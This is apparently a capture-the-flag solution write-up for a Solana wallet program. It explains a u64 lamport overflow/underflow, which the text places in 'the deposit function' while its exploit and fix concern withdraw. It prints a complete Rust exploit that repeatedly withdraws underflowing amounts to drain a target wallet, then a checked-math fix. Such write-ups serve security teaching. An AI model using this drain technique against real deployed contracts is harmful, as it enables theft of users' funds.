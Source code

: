 # Solution - Overflow/Underflow

The vulnerability in this contract is an overflow/underflow in the deposit function:

```rs
    **wallet_info.lamports.borrow_mut() -= amount;
    **destination_info.lamports.borrow_mut() += amount;
```

Remember that lamports are fractions of SOL. For a large `amount` the `u64` lamports overflow/underflow. If an attacker sets `wallet_info` to the hacker's wallet and `destination_info` to the rich-boi-wallet, they can underflow the `wallet_info` and therefore increase his lamports. Alternatively, they can overflow the `destination_info` and therefore decrease the destination lamports. 
See [here](https://play.rust-lang.org/?version=stable&mode=release&edition=2021&gist=c446a40de01a3af7957817ebe199237a).

There is one more trick to it, as there is a rent check: 
```rs
    let min_balance = rent.minimum_balance(WALLET_LEN as usize);
    if min_balance + amount > **wallet_info.lamports.borrow_mut() {
        return Err(ProgramError::InsufficientFunds);
    }
```
But this only limits the maximum amount stolen per iteration to min_balance lamports.


Here is the example exploit code that Thomas, one of our colleagues, wrote:

```rust
use borsh::BorshSerialize;
use level2::{WalletInstruction, get_wallet_address};
use solana_program::instruction::{AccountMeta, Instruction};
use solana_program::rent::Rent;
use solana_program::sysvar;



fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    // create hackers wallet
    assert_tx_success(env.execute_as_transaction(
        &[level2::initialize(
            challenge.wallet_program,
            challenge.hacker.pubkey(),
        )],
        &[&challenge.hacker],
    ));

    let hacker_wallet = get_wallet_address(challenge.hacker.pubkey(), challenge.wallet_program);

    let to_transfer = Rent::default().minimum_balance(8);
    println!("To transfer: {}", to_transfer);
    //let to_transfer = 1_000_000u64;
    let overflow = (-(to_transfer as i64)) as u64;

    let iters = 10;

    for i in 0..iters {
        let tx = env.execute_as_transaction(
            &[Instruction {
                program_id: challenge.wallet_program,
                accounts: vec![
                    AccountMeta::new(hacker_wallet, false),              // source wallet
                    AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                    AccountMeta::new(challenge.wallet_address, false),   // target wallet
                    AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
                ],
                data: WalletInstruction::Withdraw { amount: overflow+i }.try_to_vec().unwrap(),
            }],
            &[&challenge.hacker],
        );
        tx.print_named(&format!("haxx {}", i));
    }
    

    let tx = env.execute_as_transaction(
        &[Instruction {
            program_id: challenge.wallet_program,
            accounts: vec![
                AccountMeta::new(hacker_wallet, false),              // source wallet
                AccountMeta::new(challenge.hacker.pubkey(), true),   // owner
                AccountMeta::new(challenge.hacker.pubkey(), false),  // target wallet
                AccountMeta::new_readonly(sysvar::rent::id(), false), // rent
            ],
            data: WalletInstruction::Withdraw { amount: to_transfer*iters-1000 }.try_to_vec().unwrap(),
        }],
        &[&challenge.hacker],
    );
    tx.print_named("hacker withdraw");
}
```

# Mitigation

By replacing the math with checked math in the `withdraw` function, this vulnerability can be prevented:

```rust
{
    let mut wallet_info_lapmorts = wallet_info.lamports.borrow_mut();
    **wallet_info_lapmorts = (**wallet_info_lapmorts).checked_sub(amount).unwrap();
}

{
    let mut destination_info_lapmorts = destination_info.lamports.borrow_mut();
    **destination_info_lapmorts = (**destination_info_lapmorts).checked_add(amount).unwrap();
}
```